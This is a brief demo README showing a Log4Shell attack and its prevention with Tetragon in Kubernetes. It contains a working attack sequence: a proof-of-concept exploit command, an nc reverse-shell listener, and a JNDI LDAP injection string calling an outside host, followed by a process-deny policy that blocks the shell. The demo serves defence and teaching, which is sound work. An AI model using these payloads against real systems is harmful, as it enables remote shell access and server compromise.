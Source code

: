 # Prevent Log4Shell attack with Tetragon

Let's get the attacker machine ready (find more details [here](https://github.com/nmeisenzahl/hijack-kubernetes)):

```bash
cd log4j-shell-poc

sudo python3 poc.py --userip demo01-vm.westeurope.cloudapp.azure.com --webport 80 --lport 443 &
sudo nc -lvnp 443

```

Now inject the jndi string into the demo app:

`${jndi:ldap://demo01-vm.westeurope.cloudapp.azure.com:1389/a}`

You should now have an open reverse shell into the pod.

Next, implement a policy to deny such processes:

```bash
kubectl apply -f ../src/process-deny.yaml
```

```bash
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout | tetra getevents -o compact
```

You now shouldn't be able to access the pod anymore.
